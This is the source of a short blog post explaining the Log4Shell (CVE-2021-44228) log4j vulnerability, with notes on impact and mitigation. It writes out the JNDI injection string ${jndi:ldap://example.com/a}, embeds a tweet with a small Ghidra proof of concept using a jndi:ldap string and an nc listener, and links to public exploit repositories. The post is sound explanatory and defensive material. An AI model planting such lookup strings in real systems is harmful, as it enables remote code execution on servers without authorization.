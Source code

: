```yaml
---
layout: post
title: "Entry 2"
date: 2021-12-10
permalink: /logs/entry-2
---
```


Yesterday, a high severity vulnerability{% sidenote 1 "[CVE-2021-44228](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} was discovered in the popular Java logging library log4j{% sidenote 2 "[Apache Log4j](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} that could lead to remote code execution (RCE).

{% newthought 'A few notes' %} 

The log4j package uses JNDI{% sidenote 3 "[Java Naming and Directory Interface](https://wiki2.org/en/Java_Naming_and_Directory_Interface){:target='_blank'}{:rel='noopener noreferrer'}" %}. It is a standard API for directory service that allows a Java program to find data (in the form of a Java object) through a directory.

A Java program can use JNDI and LDAP together to find a Java object containing data that it might need. For example, in the standard Java documentation there’s an [example](https://docs.oracle.com/javase/jndi/tutorial/getStarted/examples/directory.html){:target='_blank'}{:rel='noopener noreferrer'} that talks to an LDAP server to retrieve attributes from an object. It uses the URL `ldap://localhost:389/o=JNDITutorial` to find the JNDITutorial object from an LDAP server running on the same machine (localhost) on port 389 and goes on to read attributes from it.

As the tutorial says _“If your LDAP server is located on another machine or is using another port, then you need to edit the LDAP URL”_. Thus the LDAP server could be running on a different machine and potentially anywhere on the Internet. That flexibility means that if an attacker could control the LDAP URL they’d be able to cause a Java program to load an object from a server under their control.

But in the case of log4j an attacker can control the LDAP URL by causing log4j to try to write a string like ${jndi:ldap://example.com/a}. If that happens then log4j will connect to the LDAP server at example.com and retrieve the object.

This happens because log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution){:target='_blank'}{:rel='noopener noreferrer'} in the form ${prefix:name} where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html){:target='_blank'}{:rel='noopener noreferrer'} where name should be evaluated. For example, ${java:version} is the current running version of Java.

{% newthought 'Impact' %}

Many services are vulnerable to this exploit. Cloud services like Amazon, Steam, Apple iCloud, Cloudflare, Twitter etc. and apps like Druid, Minecraft, ElasticSearch, Struts2, Solr have already been found to be vulnerable. 

Ghidra's vulnerable too:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Ghidra&#39;s vulnerable to log4j:<br>__attribute__((__section__(&quot;.note.${jndi:ldap://127.0.0.1:1234/abc}&quot;)))<br>int a = 1;<br>int main(){}<br>$ gcc hello.c<br>$ nc -l 1234<br>Load into Ghidra; it connects to 127.0.0.1:1234.<br>Ghidra 10.0.2, macOS OpenJDK Corretto 11.0.4.11.1<a href="https://t.co/Qu1psCjtY6">https://t.co/Qu1psCjtY6</a></p>&mdash; Zhuowei Zhang (@zhuowei) <a href="https://twitter.com/zhuowei/status/1469186818549719042?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

And the gist of it comes down to:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">The lesson of Java is that some of the best engineers at the time created a secure byte-code VM and JIT, only for Design-By-Committee to come in and say &quot;maybe someone would want the Logger to load remote code via JNDI and LDAP. Let&#39;s add that!&quot;.</p>&mdash; postmodern (@postmodern_mod3) <a href="https://twitter.com/postmodern_mod3/status/1469401307005939712?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

{% newthought 'Mitigation' %}

1. Upgrading to [new version](https://logging.apache.org/log4j/2.x/download.html){:target='_blank'}{:rel='noopener noreferrer'}.

2. If you can't upgrade, set the property:

{% highlight bash %}
log4j2.formatMsgNoLookups=true
{% endhighlight %}

- If none of the above works, you can remove the `JndiLookup` class from the classpath:
{% highlight bash %}
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
{% endhighlight %}
This command will remove the class from the log4j-core.

{% newthought 'Keypoints' %}

The underlying truth behind impact is:

{% maincolumn 'https://imgs.xkcd.com/comics/dependency.png' '<em>Dependency</em>, from [xkcd](https://xkcd.com/2347/){:target="_blank"}{:rel="noopener noreferrer"}' %}

----

{% newthought 'Further Information' %}

- [Log4Shell: RCE 0-day exploit found in log4j2, a popular Java logging package](https://www.lunasec.io/docs/blog/log4j-zero-day/){:target='_blank'}{:rel='noopener noreferrer'}
- [https://news.ycombinator.com/item?id=29504755](https://news.ycombinator.com/item?id=29504755){:target='_blank'}{:rel='noopener noreferrer'}
- [JNDI injection and utilization after 8u191](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US){:target='_blank'}{:rel='noopener noreferrer'}
- [Inside the log4j2 vulnerability (CVE-2021-44228)](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/){:target='_blank'}{:rel='noopener noreferrer'}
- [Log4j RCE 0-day mitigation](https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/){:target='_blank'}{:rel='noopener noreferrer'}
- [Apache-Log4j Exploit](https://github.com/tangxiaofeng7/apache-log4j-poc){:target='_blank'}{:rel='noopener noreferrer'}
- [Log4j Attack Surface](https://github.com/YfryTchsGD/Log4jAttackSurface){:target='_blank'}{:rel='noopener noreferrer'}
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java){:target='_blank'}{:rel='noopener noreferrer'}




 